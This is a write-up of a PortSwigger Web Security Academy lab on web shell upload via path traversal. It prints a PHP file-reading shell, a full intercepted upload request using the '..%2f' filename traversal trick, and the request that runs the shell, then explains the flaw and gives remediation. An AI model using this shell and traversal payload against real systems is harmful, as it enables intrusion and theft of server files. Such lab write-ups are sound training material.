


# Web shell upload via path traversal

**Lab:** PortSwigger Web Security Academy — *Web shell upload via path traversal* (Practitioner).

> This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`.

Credentials: `wiener:peter`.

Here the application correctly stops scripts from executing *inside* the `avatars` upload directory — but the save path is built directly from the client-supplied `filename` field, which is never sanitized for directory-traversal sequences.

## 1. Upload the payload with a traversal sequence in the filename

The web shell content is the same as in the [Content-Type restriction bypass lab](content-type-restriction-bypass.md):

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Intercept the avatar upload (`POST /my-account/avatar`) and set the multipart `filename` to traverse **one directory up**, out of `avatars/` and into its parent (which the server does not restrict execution in):

```http
POST /my-account/avatar HTTP/2
Host: 0a60000f038c403981847f6f006800bd.web-security-academy.net
Cookie: session=t9sxHteq5AryTAS9WHzn7eAqKB8ktfcP
Content-Type: multipart/form-data; boundary=----geckoformboundary7295727c55cb76fcafbe4dd65483e92d
Content-Length: 538

------geckoformboundary7295727c55cb76fcafbe4dd65483e92d
Content-Disposition: form-data; name="avatar"; filename="..%2frev2.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------geckoformboundary7295727c55cb76fcafbe4dd65483e92d
Content-Disposition: form-data; name="user"
```

`..%2f` URL-decodes to `../`, so the save path becomes `avatars/../rev2.php` — i.e. the file lands one level above the `avatars` directory. The server confirms where it actually wrote the file:

```text
The file avatars/../rev2.php has been uploaded.
```



## 2. Request the file from its traversed location

Because the parent directory does **not** have the same execution restriction as `avatars/`, requesting the file by its resolved path runs the PHP:

```text
GET /files/rev2.php HTTP/2
```



The response body is the contents of `/home/carlos/secret`.

## 3. Submit the secret

Paste the leaked value into the lab's **Submit solution** button to solve it.

## Why it works

The application's execution restriction is scoped to a specific directory (`avatars/`), not to the uploaded file itself — a reasonable control, undone by a second bug: the save path is built by naively joining a base directory with the client-supplied `filename`, with no normalization or rejection of `../` sequences. A traversal sequence in the filename lets the attacker choose *where* the file is written, stepping outside the directory the execution restriction actually covers.

## Remediation

- Never use the client-supplied filename to construct a filesystem path. Generate the save filename and path entirely server-side.
- If any part of the original filename must be kept (e.g. for display), strip it down to a safe basename and reject or encode any path-separator and traversal sequences (`../`, `..%2f`, `%2e%2e/`, etc.) — ideally by resolving the final absolute path and verifying it is still inside the intended directory, rather than by blacklisting substrings.
- Apply execution restrictions server/webroot-wide, not only to the specific upload subdirectory, so a file that ends up anywhere unexpected still can't run.
